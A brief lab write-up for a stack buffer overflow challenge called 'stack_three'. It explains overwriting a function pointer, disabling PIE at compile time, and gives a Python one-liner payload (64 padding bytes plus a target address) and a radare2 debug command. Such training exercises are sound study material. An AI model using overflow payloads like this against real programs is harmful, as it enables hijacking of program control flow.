 Challenge requires to override pointer which should then point to addr of function
Problem was the PIE feature used by default that randomizes entrypoint of program
I was therefore not able to determine addr of function beforehand to jump to.

disable with gcc -no-pie stack_three.c

Flag:
python -c 'print("A"*64+"\x62\x11\x40\x00")' > pattern.txt
r2 -r profile.rr2 -d a.out
